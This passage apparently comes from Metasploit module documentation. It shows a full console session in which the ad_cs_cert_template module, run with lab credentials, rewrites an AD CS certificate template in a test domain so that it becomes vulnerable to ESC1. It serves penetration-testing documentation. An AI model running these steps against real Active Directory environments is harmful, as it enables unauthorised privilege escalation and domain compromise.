 ### Updating A Certificate Template

In this scenario, the operator uses the module to update and reconfigure the `ESC4-Test` certificate template to make it
vulnerable to ESC1 (the default template settings). This process first makes a backup of the certificate data that can
be used later. The local certificate template data can be modified to set a custom security descriptor.

```msf
msf auxiliary(admin/dcerpc/icpr_cert) > use auxiliary/admin/ldap/ad_cs_cert_template 
msf auxiliary(admin/ldap/ad_cs_cert_template) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf auxiliary(admin/ldap/ad_cs_cert_template) > set USERNAME aliddle
USERNAME => aliddle
msf auxiliary(admin/ldap/ad_cs_cert_template) > set PASSWORD Password1!
PASSWORD => Password1!
msf auxiliary(admin/ldap/ad_cs_cert_template) > set CERT_TEMPLATE ESC4-Test
CERT_TEMPLATE => ESC4-Test
msf auxiliary(admin/ldap/ad_cs_cert_template) > set ACTION UPDATE 
ACTION => UPDATE
msf auxiliary(admin/ldap/ad_cs_cert_template) > set VERBOSE true 
VERBOSE => true
msf auxiliary(admin/ldap/ad_cs_cert_template) > run
[*] Running module against 192.168.159.10

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 192.168.159.10:389 Getting root DSE
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[+] Read certificate template data for: CN=ESC4-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=msflab,DC=local
[*] Certificate template data written to: /home/smcintyre/.msf4/loot/20230505083802_default_192.168.159.10_windows.ad.cs.te_593597.json
[*] Parsing SDDL text: D:PAI(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;AU)
[+] The operation completed successfully!
[*] Auxiliary module execution completed
msf auxiliary(admin/ldap/ad_cs_cert_template) > 
```

[certipy]: https://github.com/ly4k/Certipy
[sddl]: https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language
